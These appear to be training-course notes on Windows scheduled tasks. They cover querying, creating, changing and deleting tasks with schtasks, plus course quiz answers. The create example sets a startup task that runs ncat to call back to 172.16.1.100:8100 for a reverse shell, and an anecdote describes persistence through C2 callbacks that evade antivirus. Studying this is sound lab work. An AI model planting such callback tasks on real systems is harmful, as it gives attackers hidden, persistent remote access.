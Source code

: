 - Scheduled tasks are an excellent way for administrators to ensure that tasks they want to run regularly happen, but they are also an excellent persistence point for attackers. In this section, we will discuss using schtasks to:
	- Learn how to check what tasks exist.
	- Create a new task to help us automate actions or acquire a shell on the host.


### What Are Scheduled Tasks?
- The Task Scheduler allows us as admins to perform routine tasks without having to kick them off manually. The scheduler will monitor the host for a specific set of conditions called triggers and execute the task once the conditions are met.

> **Story Time: On several engagements, while pentesting an enterprise environment, I have been in a position where I landed on a host and needed a quick way to set persistence. Instead of doing anything crazy or pulling down another executable onto the host, I decided to search for or create a scheduled task that runs when a user logs in or the host reboots. In this scheduled task, I would set a trigger to open a new socket utilizing PowerShell, reaching out to my Command and Control infrastructure. This would ensure that I could get back in if I lost access to this host. If I were lucky, when the task I chose ran, I might also receive a SYSTEM-level shell back, elevating my privileges at the same time. It quickly ensured host access without setting off alarms with antivirus or data loss prevention systems.**

- #### Triggers That Can Kick Off a Scheduled Task
	- When a specific system event occurs.
	- At a specific time.
	- At a specific time on a daily schedule.
	- At a specific time on a weekly schedule.
	- At a specific time on a monthly schedule.
	- At a specific time on a monthly day-of-week schedule.
	- When the computer enters an idle state.
	- When the task is registered.
	- When the system is booted.
	- When a user logs on.
	- When a Terminal Server session changes state.
- This list of triggers is extensive and gives us many options for having a task take action. Now that we know what scheduled tasks are and what can make them actionable, it is time to look at using them.


### How to Utilize Schtasks
- In the sections provided below, we will go over exactly how we can utilize the `schtasks` command to its fullest extent. Additionally, as we go over them in greater detail, a formatted table providing the syntax for each action will be provided.
- Note that the sections provided here are not an end-all-be-all. Several of the repetitive parameters have been omitted. Be sure to check the help menu `/?` to see a complete list of what can be used.
- #### Display Scheduled Tasks:
- #### Query Syntax
![[Screenshot_20241110_202211.png]]
- We can view the tasks that already exist on our host by utilizing the `schtasks` command like so:
```cmd-session
C:\htb> SCHTASKS /Query /V /FO list

Folder: \  
HostName:                             DESKTOP-Victim
TaskName:                             \Check Network Access
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive only
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-Victim\htb-admin
Task To Run:                          C:\Windows\System32\cmd.exe ping 8.8.8.8
Start In:                             N/A
Comment:                              quick ping check to determine connectivity. If it passes, other tasks will kick off. If it fails, they will delay.
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          tru7h
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up
Start Time:                           N/A
Start Date:                           N/A
End Date:                             N/A
Days:                                 N/A
Months:                               N/A
Repeat: Every:                        N/A
Repeat: Until: Time:                  N/A
Repeat: Until: Duration:              N/A
Repeat: Stop If Still Running:        N/A

<SNIP>
```
- Chaining our parameters with `Query` allows us to format our output from the standard bulk into a list with advanced settings. The above output shows how the tasks would look in a list format.
- #### Create a New Scheduled Task:
- #### Create Syntax
![[Screenshot_20241110_202241.png]]
- Creating a new scheduled task is pretty straightforward. At a minimum, we must specify the following:
	- `/create` : to tell it what we are doing
	- `/sc` : we must set a schedule
	- `/tn` : we must set the name
	- `/tr` : we must give it an action to take
- Everything else is optional. Let us see an example below of how we could create a task to help us get a shell.

### New Task Creation
```cmd-session
C:\htb> schtasks /create /sc ONSTART /tn "My Secret Task" /tr "C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100"

SUCCESS: The scheduled task "My Secret Task" has successfully been created.
```

> **A great example of a use for schtasks would be providing us with a callback every time the host boots up. This would ensure that if our shell dies, we will get a callback from the host the next time a reboot occurs, making it likely that we will only lose access to the host for a short time if something happens or the host is shut down. We can create or modify a new task by adding a new trigger and action. In our task above, we have schtasks execute Ncat locally, which we placed in the user's AppData directory, and connect to the host `172.16.1.100` on port `8100`. If successfully executed, this connection request should connect to our command and control framework (Metasploit, Empire, etc.) and give us shell access.**

- Now let us look at what modifying a task would look like.

### Change the Properties of a Scheduled Task
- #### Change Syntax
![[Screenshot_20241110_202337.png]]
- Ok, now let us say we found the `hash` of the local admin password and want to use it to spawn our Ncat shell for us; if anything happens, we can modify the task like so to add in the credentials for it to use.
```cmd-session
C:\htb> schtasks /change /tn "My Secret Task" /ru administrator /rp "P@ssw0rd"

SUCCESS: The parameters of scheduled task "My Secret Task" have been changed.
```
- Now to make sure our changes took, we can query for the specific task using the `/tn` parameter and see:
```cmd-session
C:\htb> schtasks /query /tn "My Secret Task" /V /fo list 

Folder: \
HostName:                             DESKTOP-Victim
TaskName:                             \My Secret Task
Next Run Time:                        N/A
Status:                               Ready
Logon Mode:                           Interactive/Background
Last Run Time:                        11/30/1999 12:00:00 AM
Last Result:                          267011
Author:                               DESKTOP-victim\htb-admin
Task To Run:                          C:\Users\Victim\AppData\Local\ncat.exe 172.16.1.100 8100
Start In:                             N/A
Comment:                              N/A
Scheduled Task State:                 Enabled
Idle Time:                            Disabled
Power Management:                     Stop On Battery Mode, No Start On Batteries
Run As User:                          SYSTEM
Delete Task If Not Rescheduled:       Disabled
Stop Task If Runs X Hours and X Mins: 72:00:00
Schedule:                             Scheduling data is not available in this format.
Schedule Type:                        At system start up

<SNIP>  
```
- It looks like our changes were saved successfully. Managing tasks and making changes is pretty simple. We need to ensure our syntax is correct, or it may not fire. If we want to ensure it works, we can use the `/run` parameter to kick the task off immediately. We have `queried, created, and changed` tasks up to this point. Let us look at how to delete them now.


### Delete the Scheduled Task(s)
- #### Delete Syntax
![[Screenshot_20241110_202422.png]]
```cmd-session
C:\htb> schtasks /delete  /tn "My Secret Task" 

WARNING: Are you sure you want to remove the task "My Secret Task" (Y/N)?
```
- Running `schtasks /delete` is simple enough. The thing to note is that if we do not supply the `/F` option, we will be prompted, like in the example above, for you to supply input. Using `/F` will delete the task and suppress the message.
- Schtasks can be a great way to leverage the host to run actions for us as admins and pentesters. Take some time to practice creating, modifying, and deleting tasks. By now, we should be comfortable with `cmd.exe` and its workings. Let's level up and start working in `PowerShell`!


### Questions
- True or False: A scheduled task can be set to run when a user logs onto a host?
	- True
- Access the target host and take some time to practice working with Scheduled Tasks. Type COMPLETE as the answer when you are ready to move on.
	- Complete